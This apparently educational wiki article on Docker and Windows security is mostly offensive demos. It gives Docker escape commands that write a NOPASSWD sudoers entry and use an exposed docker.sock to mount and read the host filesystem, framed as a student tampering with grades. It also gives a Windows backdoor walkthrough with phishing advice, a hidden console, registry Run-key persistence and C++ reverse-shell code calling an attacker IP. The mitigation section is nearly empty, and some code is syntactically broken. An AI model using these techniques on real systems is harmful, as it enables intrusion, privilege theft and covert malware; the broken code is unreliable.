


---
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. 
# You should set the date the article was last updated like this:
date: 2023-05-07 # YYYY-MM-DD
# This will be displayed at the bottom of the article
# You should set the article's title:
title: Docker and Windows Security
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---

Docker is a popular tool for containerization, providing a lightweight and portable environment for applications to run in. One of the biggest advantages of using Docker is that it allows for consistent development and deployment across different environments. Developers can create an image of an application and run it anywhere without worrying about dependencies or differences in the host system. This makes it easier to scale and manage applications, as well as increase productivity and reduce development time.

However, using Docker also poses some security concerns. Since containers share the same host operating system, an attacker who gains access to a container can potentially access other containers running on the same host. Additionally, if Docker images are not properly secured or updated, they can become vulnerable to exploits and attacks. Therefore, it's important to follow best practices for securing Docker, such as using only trusted images, isolating containers, and regularly updating images and containers to ensure that they are running with the latest security patches.

Given that many MRSD teams are utilizing Docker for their projects, it is important to be mindful of the potential security concerns that come with its usage. 

# Docker Breakout
Assuming that today a server uses Docker to deploy containers for its website and database, if the website is vulnerable and gets hacked, the engineer can quickly switch to a new version using Docker for immediate maintenance and patching. However, if the containers themselves have vulnerabilities, not only the website but also all the databases will be at risk of being exposed to malicious attacks.

This demo assumes that the hacker is a student who has copied assignments from multiple courses and will not be able to graduate if caught. The school's grading database key is stored on a host machine controlled by the school. It is known that the hacker is inside one of the Docker containers on that host machine, and their goal is to escape the container, infiltrate the host machine, steal passwords, and tamper with grades.

---

## Container Techniques

- There are six important technologies utilized in containers, two of which are more relevant to this experiment's demo.

    Namespaces

    Cgroups

    Seccomp

    Capabilities

    LSM

    OverlayFS

### Namespaces

One of the key benefits of containers is that they allow for the creation of isolated environments, where a variety of software packages can be safely installed and tested without interfering with the underlying system. Namespaces play a crucial role in achieving this functionality. As stated in the Linux Programmer's Manual:

> A namespace wraps a global system resource in an abstraction that makes it appear to the processes within the namespace that they have their own isolated instance of the global resource. Changes to the global resource are visible to other processes that are members of the namespace, but are invisible to other processes. One use of namespaces is to implement containers.

The term "resource" here refers to things like mount points or PIDs, and Namespaces play an important role in creating an isolated environment for Containers to safely install various packages without affecting the host environment. Namespaces can create a separate mount point or PID, which enables Containers to access only their own file system and processes while being isolated from the host environment, preventing the Containers from accessing or affecting host files and processes.

### Cgroups


Cgroups control the memory capacity and CPU resources that processes can use through cgroupfs, preventing a bug in a process from causing the entire computer to crash. Docker can use the --cpu-shares flag to limit the CPU resources that each container can use.

---

## Privileged Escalation

```bash
sudo apt-get install docker.io
sudo usermod -aG docker evil
su evil

# Should fail
su deluser victim
sudo cat /etc/sudoers

cd 
mkdir privesc
nano Dockerfile

FROM debian:wheezy
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
WORKDIR $WORKDIR

docker build -t privesc . # Inside current directory
docker run -v /:/privesc -it privesc /bin/bash

#Inside container
echo "evil ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers
cat /privesc/etc/sudoers
whoami # Success!!

```

---

## Mitigation of Privilege Escalation



## Exposed Docker Socket

If docker.sock is mounted from the host into a container, we can use docker.sock to escape the container. Since docker.sock has the docker group, it can execute many docker commands without root privileges. We can use this privilege to execute some programs that cannot be executed without this socket.

### Docker socket

The Docker socket is a type of UNIX socket used by the Docker CLI to execute Docker commands with root privileges. docker.sock is not originally present inside the container, but users inside the container may need to mount it to manage or create other containers. However, mounting docker.sock inside the container increases the attack surface and poses a security risk.



Next, we will go through the steps of the demo experiment:

### Victim

Before conducting the attack, the attack environment must be set up. Set up a Docker container named "sock" that contains the Docker socket inside it.

```bash
docker run -itd --name sock -v /var/run/docker.sock:/var/run/docker.sock alpine:latest
```

### Intruder

To check if docker.sock is present inside the container, you can usually find it at the path /var/run/docker.sock.

```bash
find / -name docker.sock
```

Assuming you have confirmed the existence of docker.sock in the "sock" container, you can proceed to access the shell of the "sock" container. You can use the docker exec command to do this. Here's an example command:

```bash
docker exec -it sock sh
```

This command will start a shell session (sh) inside the "sock" container with an interactive terminal (-it) attached.

Inside the sock container, set up a new container and mount the host's root path / directly into the /test directory of the new container. Then, open a new shell inside the new container.

```bash
docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
```

The test folder will now appear, containing the root path of the host. At this point, an attacker can access all files and confidential information on the host through the new container.

```bash
cd /test && cat /etc/passwd
```

```bash
dockerd --userns-remap="evil:evil" # This limits the capabilities of evil user
```

## Reference

1. [https://www.netsparker.com/blog/web-security/privilege-escalation/](https://www.netsparker.com/blog/web-security/privilege-escalation/)
2. [https://docs.docker.com/engine/security/userns-remap/](https://docs.docker.com/engine/security/userns-remap/)
3. [https://www.youtube.com/watch?v=MnUtHSpcdLQ](https://www.youtube.com/watch?v=MnUtHSpcdLQ)
4. [https://flast101.github.io/docker-privesc/](https://flast101.github.io/docker-privesc/)
5. [https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html](https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html)
6. [https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a](https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a)
7. [https://www.datadoghq.com/container-report/](https://www.datadoghq.com/container-report/)

# Windows Backdoor

This is actually a very classic type of malware. Its ultimate goal is to execute on the client side and obtain the desired results, while being able to obtain this information on the server side.

The process is roughly as follows:

1. Set up a server to listen for incoming connections on a specific port.
2. Lure the victim into running a backdoor program.
3. The backdoor establishes a connection between the client and server.
4. The server transmits commands to the client.
5. The client executes the commands that we want.
6. The results are obtained on the server side.


To successfully deploy a backdoor, the following four basic concepts are necessary:

- Phishing: luring the user to execute our backdoor, such as disguising it as other trusted programs or providing attractive content.
- Persistence: how to maintain the backdoor running normally on the client side for a long time.
- Privilege escalation: actively attempting to gain administrator privileges on Windows or persuading the victim to grant them.
- Evasion: making the victim unaware of the existence of the backdoor and attempting to evade antivirus software or firewalls.

## Phishing

For this type of backdoor program, the most critical step may be to lure the victim into willingly taking the bait. In the demo, I used the classic trick of disguising the backdoor as a different type of file. Using the well-known self-extracting archive feature of WINRAR makes this step easy to accomplish.

In reality, it would be better to forge or inject the backdoor into a trusted application from various angles, but I am not currently able to do so.

## Connection

To deploy the backdoor, an idle port is selected and the IP and port obtained in advance are embedded in the client-side code. This allows the creation of sockets at both the client and server ends to establish a two-way data transfer. However, passing through the victim's firewall is unavoidable. In this demo, it can only rely on the victim's firewall settings being relatively lax to allow connections on the desired port.

## Backdoor Execution

We create a hidden console, although it is still visible in the task manager.

```cpp
AllocConsole(); 
stealth = FindWindowA("ConsoleWindowClass", NULL); 
ShowWindow(stealth, 0);
```

## Pervasiveness

Registry HEKY should be logged in the corresponding directory to achieve automatic startup when the computer is turned on. In Windows 7, this directory is located at

```cpp
Software\Microsoft\Windows\CurrentVersion\Run
```

This is the way for accessing in Windows

```cpp
TCHAR s2Path[MAX_PATH]; 
DWORD pathLen = 0;
pathLen = GetModuleFileName(NULL, s2Path, MAX_PATH);
HKEY NewVal; 
RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run")
RegSetValueEx(NewVal, TEXT("Backdoor"), 0, REG_SZ, (LPBYTE)s2Path, pathLenInBytes)
```

## Eavesdropping

Establish Socket Communication

```cpp
sock = socket(AF_INET, SOCK_STREAM, 0); 
if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, (const char*)&optval, sizeof(optval)) < 0) { 
	printf("Error Setting TCP Socket options!\n");
	return 1;
}
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = inet_addr("192.168.56.99"); //kali ip
server_address.sin_port = htons(50008); //port
bind(sock, (struct sockaddr*) &server_address, sizeof(server_address));
listen(sock, 5); 

while (1) { 
	bzero(&buffer, sizeof(buffer));
	bzero(&response, sizeof(response));
	printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
	fgets(buffer, sizeof(buffer), stdin);
	strtok(buffer, "\n"); 
	write(client_socket, buffer, sizeof(buffer));
	if (strncmp("q", buffer, 1) == 0) {
		break;
		}
	else if (strncmp("persist",buffer,7) ==0 ) { 
		recv(client_socket, response, sizeof(response), 0);
		printf("%S", response);
		}
	else {
		recv(client_socket, response, sizeof(response), MSG_WAITALL);
		printf("%S", response);
		}
}

sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&servaddr, 0, sizeof(servaddr));
servaddr.sin_family = AF_INET;
servaddr.sin_addr.s_addr = inet_addr(servip);
servaddr.sin_port = htons(servport);
start:
while (connect(sock, (struct sockaddr *) &servaddr, sizeof(servaddr)) != 0) { 
	Sleep(10);
	MessageBox(NULL, L"no connect", L"connect", MB_OK);
	goto start;
	}
Shell();

```

## Reference

1. [https://dangerlover9403.pixnet.net/blog/post/212391408-[教學]c++-socket資料整理](https://dangerlover9403.pixnet.net/blog/post/212391408-%5B%E6%95%99%E5%AD%B8%5Dc++-socket%E8%B3%87%E6%96%99%E6%95%B4%E7%90%86)
2. [https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s](https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s)
3. [https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions)
